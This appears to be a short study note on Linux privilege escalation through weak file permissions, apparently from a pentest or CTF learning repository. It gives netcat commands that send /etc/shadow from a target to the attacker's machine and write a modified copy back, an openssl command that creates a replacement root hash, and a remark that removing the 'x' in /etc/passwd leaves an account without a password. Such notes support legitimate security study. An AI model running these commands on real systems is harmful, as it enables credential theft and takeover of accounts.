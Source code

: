 ### Weak File Permission
Suppose I have permission to read and write sensitive files like /etc/passwd(contains username),/etc/shadow(contains password hash)
then I can read the users and password of root or others users.
#### File permission check command
- ls -al
#### Take advantages of write file.
We can replace the hash of any users to our known password.To do that we can copy the /etc/shadow file and after modifying we can also placed the file again.
#### Coping file from target to host machine.
We use netcat listener in target 
- nc -nvlp 4444 < /etc/shadow
In our host machine to start 
- nc ip_of_the_target 4444 >shadow
The above command copy a file name shadow.We can here modify the contain using vim and nano editor.

#### Making Hash
- openssl passwd -6 hello
The above command make a hash for hello format SHA-512-based crypt.

#### Transfer the modify file into target
In our host machine we run the following command
- nc ip_of_the_targer 4444 < shadow
In target machine
nc -nvlp 4444 > /etc/shadow


### Understanding the /etc/passwd file
                      
root:x:0:0:root:/root:/usr/bin/zsh
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin

In /etc/passwd file we can see the something like that.

- Field by field (colon : separates them):
- root → Username
- x → Password placeholder (real password hash is stored in /etc/shadow)
- 0 → User ID (UID) → 0 = superuser
- 0 → Group ID (GID) → 0 = root group
- root → Comment / GECOS field (user description)
- /root → Home directory
- /usr/bin/zsh → Login shell (here it’s Zsh, not the usual /bin/bash)
#### If we remove the x that's mean there is no password for that users.


